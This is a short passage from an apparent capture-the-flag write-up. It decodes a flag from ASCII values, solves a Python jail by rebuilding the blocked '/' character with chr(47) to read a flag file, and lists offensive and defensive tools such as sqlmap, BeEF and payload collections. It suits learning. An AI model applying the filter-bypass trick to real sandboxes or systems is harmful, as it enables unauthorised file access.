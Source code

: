 ```
57
48
100
101
49
99
51
125
```

Into ASCII:

ictf{0ld_m0nk_190de1c3}

### PyJail

* connect with nc
* you'll get a python shell
* cannot ue `/`, use `a = chr(47)` instead

```python
import os

arr = os.listdir()

print(arr)

dortei = open(a + "home" + a + "ctf" + a + "flag.txt")
content = dortei.read()
print(content)
```

ictf{ff8ab219-a90b-44f8-9273-ccc13766f2eb}

## Tools

The one true love: https://gchq.github.io/CyberChef/
Exploit Example Payloads: https://github.com/swisskyrepo/PayloadsAllTheThings
Wordlists: https://github.com/danielmiessler/SecLists

### Stego

For the easy stego challenges: https://futureboy.us/stegano/
Geil: https://stegonline.georgeom.net/image

### Web

HTTP Dump: https://beeceptor.com/
SQLInjection: https://sqlmap.org/
noSQL Injection: https://github.com/codingo/NoSQLMap
SSL-Configurator: https://ssl-config.mozilla.org/
SSL-Analyzer: https://www.ssllabs.com/ssltest/analyze.html
Requested Certificate Finder: https://crt.sh
JSON Web Token Stuff: https://jwt.io/
XSS Tools: https://beefproject.com/
